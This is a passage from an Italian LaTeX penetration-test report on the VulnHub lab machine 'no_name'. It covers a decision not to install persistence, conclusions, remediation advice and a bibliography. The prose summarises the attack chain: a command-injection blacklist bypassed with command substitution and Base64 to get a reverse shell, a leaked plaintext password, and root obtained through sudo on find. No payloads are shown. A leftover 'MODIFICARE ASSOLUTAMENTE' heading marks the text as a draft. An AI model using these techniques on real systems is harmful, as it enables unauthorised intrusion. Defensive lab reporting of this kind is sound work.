	\caption{Accesso alla directory riservata ed estrazione della flag finale.}
	\label{fig:root_flag_final}
\end{figure}

	\section{Maintaining Access}
	L'ultima fase tattica del \textit{Framework Generale per il Penetration Testing} prevede tipicamente l'installazione di un meccanismo di persistenza (\textit{backdoor}, \textit{Web Shell} o \textit{Reverse Shell} in ascolto) per mantenere il controllo del sistema compromesso nel tempo, garantendo l'accesso anche in caso di riavvio della macchina o chiusura della sessione corrente.
	
	Durante le valutazioni tecniche condotte dal team per l'implementazione di tale fase, sono emerse tuttavia stringenti limitazioni infrastrutturali. L'analisi della superficie di attacco ha confermato che l'unico canale di comunicazione consentito dall'esterno verso il bersaglio è la porta \textbf{80 (HTTP)}. Servizi di amministrazione remota standard, come il demone SSH (porta 22), non sono risultati in ascolto o sono bloccati a livello di firewall, precludendo l'inserimento di chiavi asimmetriche per un accesso silente (\textit{Living off the Land}).
	
	L'installazione di \textit{bind shell} o l'apertura di porte non standard per il mantenimento dell'accesso avrebbe generato anomalie di rete altamente rumorose, facilmente bloccate da eventuali regole di un firewall. L'unica opzione tecnicamente percorribile per garantire la persistenza sarebbe consistita nell'alterazione permanente del codice sorgente dell'applicazione web o nell'inserimento di una \textit{Web Shell} nei file di sistema.
	
	Tuttavia, soppesando i rischi in accordo con le \textit{Regole d'Ingaggio} (\textit{Rules of Engagement}), il team ha ritenuto che tale modifica fosse eccessivamente invasiva e potenzialmente lesiva per la stabilità e l'integrità del servizio web legittimo. Di conseguenza, si è stabilito di \textbf{non implementare alcun meccanismo di persistenza}. 
	
	Acquisita la flag finale con i privilegi di \texttt{root} ed esauriti gli obiettivi dell'ingaggio, tutte le sessioni volatili sono state terminate e le tracce temporanee cancellate, abbandonando il sistema senza lasciare artefatti persistenti.
		
		
\chapter{Conclusioni}
{\Huge \textbf{MODIFICARE ASSOLUTAMENTE}}

L'attività di Penetration Testing condotta sulla macchina virtuale \textbf{no\_name} ha simulato con successo un attacco mirato, portando alla compromissione totale del sistema e al raggiungimento dell'obiettivo \textit{Boot2Root}. L'analisi ha evidenziato una postura di sicurezza insufficiente, caratterizzata da vulnerabilità concatenate che spaziano da errori di configurazione architetturale a gravi falle logiche nel codice applicativo.

Il punto di ingresso iniziale (\textit{Foothold}) è stato ottenuto sfruttando una vulnerabilità critica di \textbf{OS Command Injection} (CWE-78) presente nell'interfaccia \texttt{superadmin.php}. Il tentativo di mitigare il rischio tramite l'implementazione di una \textit{blacklist} si è rivelato inefficace, permettendo al team di eludere i controlli avvalendosi di tecniche di \textit{Command Substitution} e codifica in Base64 per instaurare una Reverse Shell.

Successivamente, l'errata gestione dei segreti (\textit{Information Disclosure}) ha esposto in chiaro la password dell'utente di sistema all'interno di file nascosti, consentendo un agevole \textit{User Pivoting} verso l'account \texttt{haclabs}. La \textit{Privilege Escalation} verticale definitiva verso l'utente \texttt{root} è stata garantita da una severa \textit{Security Misconfiguration} relativa ai permessi SUDO: la delega di esecuzione del binario \texttt{find} in modalità \texttt{NOPASSWD} ha permesso il \textit{Rooting} istantaneo del bersaglio, evidenziando una grave violazione del Principio del Minimo Privilegio (PoLP).

Il livello di rischio complessivo associato all'infrastruttura è classificato come \textbf{Critico}. Al fine di ripristinare un adeguato livello di sicurezza, si raccomandano le seguenti contromisure:
\begin{itemize}[label=\textcolor{headerblue}{\textbf{\checkmark}}, leftmargin=*]
	\item \textbf{Validazione dell'Input:} Sostituire l'attuale meccanismo di \textit{blacklisting} in \texttt{superadmin.php} con una più rigorosa \textit{allowlist}, validando rigorosamente il formato degli indirizzi IP forniti dall'utente prima di processarli.
	\item \textbf{Bonifica dei Privilegi (SUDO):} Revocare immediatamente i permessi \texttt{NOPASSWD} per il binario \texttt{find} associati all'utente \texttt{haclabs}.
	\item \textbf{Gestione dei Segreti:} Rimuovere qualsiasi traccia di password in chiaro dai file di configurazione (\texttt{.passwd}) e dai commenti del codice sorgente (es. pagina \texttt{/admin}).
	\item \textbf{Hardening del Web Server:} Implementare le intestazioni HTTP di sicurezza mancanti (\texttt{X-Frame-Options}, \texttt{Content-Security-Policy}) per prevenire attacchi di tipo client-side (es. Clickjacking).
\end{itemize}

\cleardoublepage
\stepcounter{chapter} % Incrementa il contatore dei capitoli (diventa 4)
\addcontentsline{toc}{chapter}{\protect\numberline{\thechapter}Bibliografia} % Aggiunge il numero all'indice
\begin{thebibliography}{99}
	\bibitem{vulnhub} 
	HacLabs, \textit{no\_name: 1}, VulnHub. \\
	\url{https://www.vulnhub.com/entry/haclabs-no_name,429/}
	
	\bibitem{owasp_top10} 
	OWASP Foundation, \textit{OWASP Top 10 Web Application Security Risks}. \\
	\url{https://owasp.org/Top10/}
	
	\bibitem{wstg} 
	OWASP Foundation, \textit{Web Security Testing Guide (WSTG)}, v4.2. \\
	\url{https://owasp.org/www-project-web-security-testing-guide/}
	
	\bibitem{cwe78} 
	MITRE Corporation, \textit{CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')}. \\
	\url{https://cwe.mitre.org/data/definitions/78.html}
	
	\bibitem{gtfobins} 
	GTFOBins, \textit{find - Sudo/SUID Abuse}. \\
	\url{https://gtfobins.github.io/gtfobins/find/}
	
	\bibitem{nmap} 
	Gordon Lyon, \textit{Nmap Network Scanning: The Official Nmap Project Guide to Network Discovery and Security Scanning}. \\
	\url{https://nmap.org/book/}
	
	\bibitem{ptes} 
	The Penetration Testing Execution Standard (PTES). \\
	\url{http://www.pentest-standard.org/}
\end{thebibliography}

\end{document}